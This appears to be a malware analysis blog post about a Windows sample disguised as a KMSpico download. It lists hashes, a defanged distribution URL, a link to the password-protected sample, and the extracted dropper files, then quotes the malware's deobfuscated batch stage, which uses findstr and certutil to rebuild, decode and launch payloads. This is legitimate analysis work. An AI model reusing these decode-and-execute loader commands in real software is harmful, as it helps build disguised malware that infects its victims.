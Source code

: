 ```yaml
---
layout: post
title: Unknown malware analysis
comments: true
toc: true
---
```


# Introduction
This post is about a malware I analyzed in the last few days:
- [Sample and IDA Db](/assets/files/malware.7z)
- Password: `infected`


At the time of the writing, the malware is actually undetected by most AV.

The malware was downloaded from: `hxxp://52.200.29.1/~arichve/index.php?t=1612270025&q=Download%20KMSpico` in a password-protected zip file:
```
Name: setup.exe
MD5: 393dbb217ad0524bf1af36988fd0d3fe
SHA256: aa777fea172dab773f075f80648c24dfdcb7997c6085917323c30c82fb988626
SHA512: 6dd6bd53bb9f17a9cd1aaf8d0f82f73d2aaca9becf010d7a7a4646a4cd01c5a6f3a211d09e94812fee5478d8c3c85fecc498d4ac8757dbaa037e166ba263fe89
```

It seems it is active from 25/01, and it seems to come from Russia.
It is divided into different parts, and the first is an SFX.

At startup, it will decompress the resource `CABINET` (a cab archive indeed) inside `%TEMP%\IXP000.TMP\`.

The extracted files are:
1. `Attira.xlxs`: base64 encoded file. 
2. `San.vst`: base64 encoded file.
3. `Pensa.vmw`: binary file.
4. `Piu.xlxt`: binary file.

# 1 - Attira.xlxs
`Attira.xlxs` is decoded into `Baciocchi.tif` and executed with the command `cmd /c certutil -decode Attira.xlxs Baciocchi.tif & cmd < Baciocchi.tif`
It is an obfuscated batch file. Most of the instructions are merely invalid and inserted to confuse. 
The few good instructions are obfuscated by replacing each command's character with a variable; the prompt will expand during runtime.

It is straightforward to remove all the invalid instructions by removing every match with this regex: `^(?!Set|%).*\r\n`.
To understand the content, it's enough to execute it; the prompt will show the expanded values:

```batch
findstr /V /R "^xBNrnPvttDwqGEHkfIgKhBSsstAiSfcnxclqsMiuANCVJpmuvGVfWYlTIvMzgfjOiCFlzHTCBolAYWHoFzLkzuBvkssUqNRlANNuDgNPMzNONJUM$" Pensa.wmv  1>>Affluisce.com
certutil -decode San.vst f
start Affluisce.com f
ping 127.0.0.1 -n 30
```
